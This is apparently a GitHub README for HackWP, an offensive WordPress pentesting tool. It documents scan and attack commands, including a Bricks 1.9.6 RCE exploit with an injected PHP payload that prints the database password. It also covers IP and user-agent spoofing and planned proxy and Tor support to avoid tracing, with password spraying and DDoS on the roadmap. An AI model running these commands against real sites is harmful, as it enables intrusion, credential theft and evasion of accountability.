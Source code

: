 # HackWP

This is a tool Im using to offload heavy work from WP pentesting.<br />
IE for me to re use payloads, use stolen cookies, spoof IPs etc.<br />
<br />
The main idea with open sourceing this is to release a tool that combines the best from `wpscan` and `msf` to be used by pentesters, webmasters and sysadmins to test their own sites, equipment and infrastructure.

I will probably opensource most of my exploits with time but it is very welcome if the community would add their own. Create a pull request and I will add it if it is nice.

>[!CAUTION]
> Be careful when using HackWP.<br />
> This is an agressive tool that presumes you are the admin/owner of the site you are pentesting.
> If you don't have the option to white list your IP in your firewall you can use a VPN. Proxies are currently not supported :/

## Usage

**Installation**

```
gh repo clone etragardh/hackwp
chmod +x hackwp/hackwp
sudo ln -s ${PWD}/hackwp/hackwp /usr/local/bin
```

**Update**

```
cd /path/to/hackwp/
git pull
```

**Sample Scan**
```
hackwp --scan --target http://localhost --spoof
hackwp --scan --target http://localhost --spoof --verbose <- more info
hackwp --scan --target http://localhost --spoof --debug <- most info
```

**Sample hacks**

Test payload
```
hackwp --target http://localhost --attack bricks --exploit 1.9.6-rce --payload test-rce --spoof --debug
```
Test payload with manual PHP
```
hackwp --target http://localhost --attack bricks --exploit 1.9.6-rce --payload test-rce "<?php echo DB_PASSWORD; ?>"  --spoof --debug
```

**What commands to run**

HackWP will tell you what commands are available after the scan is complete. It will tell you what exploits will work with the scanned site and give you a command to copy/paste.

You can also list available exploits and payloads like this.<br />
+TODO: List command is not implemented since there are only a few options
```
hackwp --list <exploits|payloads> <method|surface|author>
hackwp --list exploits <- all exploits
hackwp --list exploits rce <- exploits that has RCE
hackwp --list exploits bricks <- exploits that affects bricks surface
hackwp --list payloads <- all payloads
```

## Roadmap
+ Interesing findings<br />
+ Password spray on enumerated users<br />
+ Stess test reflected DDoS<br />
+ Stess test amplified Dos/DDoS<br />
+ Better error handling<br />
+ Performance and memory management<br />
+ Documentation<br />
+ Auto test any input for reflected XSS<br />
+ Enumerate emails<br />

## Documentation
[Documentation](https://github.com/etragardh/hackwp/tree/main/docs/)
[Create Exploit](https://github.com/etragardh/hackwp/tree/main/docs/exploit/)
[Create Payload](https://github.com/etragardh/hackwp/tree/main/docs/payload)

## Dependencies

+TODO: Update list of deps<br />
+TODO: Auto install deps with pip if available<br />

## Performance
+TODO: add support for multi threading<br />
(To many, to quick, live requests might get you banned, but handling cached scans can increase performance a lot if multi threaded)<br />
+TODO: Memory management.<br />
(Go through the code and make sure file pointers are closed, files/content released from memory when not used etc)<br />
+TODO: Limit the amount of requests when crawling the local site.<br />
(A large site with thousands of pages takes a long time to scan)

## Stealth

**Spoofing**
You can have HackWP spoof your IP.
That will trick most of the Wordpress "get true IP" functions but it will not trick the Police, FBI or other authority that wants to know who you are.

```
hackwp --scan --target http://localhost --spoof <- spoof IP and UA
hackwp --scan --target http://localhost --spoof-ip <- spoof IP only 
hackwp --scan --target http://localhost --spoof-ua <- spoof UA only
```

**Proxy**
+TODO: Add proxy support for some thing like this:<br />
[Proxyrack](https://www.proxyrack.com/)
This means every request can have a unique IP and it is not needed to spoof it.

**VPN**
You can connect your computer to a VPN and then run HackWP. The connection will go through your VPN provider.

**TOR**
+TODO: Add support for Onion Routing so requests can have unique IPs andprevent trace backwards.

## Supported/tested platforms
Im running MacOS, Kali and Parrot on my laptop.
These are the tested systems and there should be very few compatibility issues.

However hackwp is written in python and should run fine on most linux.
Let me know if it does not run on any of these and I will try to fix it.

+ macos (tested)
+ kali (tested)
+ parrot (tested)
+ ubuntu/debian

**Help**
CLI Help
```
hackwp --help
```

Help is also available in the blueteamer discord server.
`https://discord.gg/mNQ66EdJkE`

## Agressive scanning
HackWP is pretty agressive in its nature.<br />
However we have an agressive option that makes the scan truly agressive.

Before using this option, make sure you are behind a VPN, Proxy or that your IP is white listed in the firewall. You might get banned for doing a lot of requests.

```
hackwp --scan --target http://localhost --agressive
```

Will add the following to the scan:<br />
+ Test all vulnerable plugins one by one
normally plugins are detected just by scanning the source code
+ Add cryptographic signatures as an option to WP Core Version scan
(will yield more requests to files that might be blocked by cloudflare or other external firewall zero trust policies)

## Cache

HackWP has caching. It scans/crawl the entire target webiste once. Then the cache is re used for other tasks.
If you think the site has changed or that some requests were cached in the wrong state (ie you got banned and have now changed IP) you can purge the cache.
```
hackwp --scan --target http://localhost --purge
```


## Responsibility and Liability
This software is provided "as is" and is created for educational and testing purposes only. Do not use it for any illegal activities. I will not be held responsible for any harm caused by utilizing this tool in a way it was not meant to.


## Support
<p><a href="https://www.buymeacoffee.com/etragardh"> <img align="left" src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="etragardh" /></a></p>

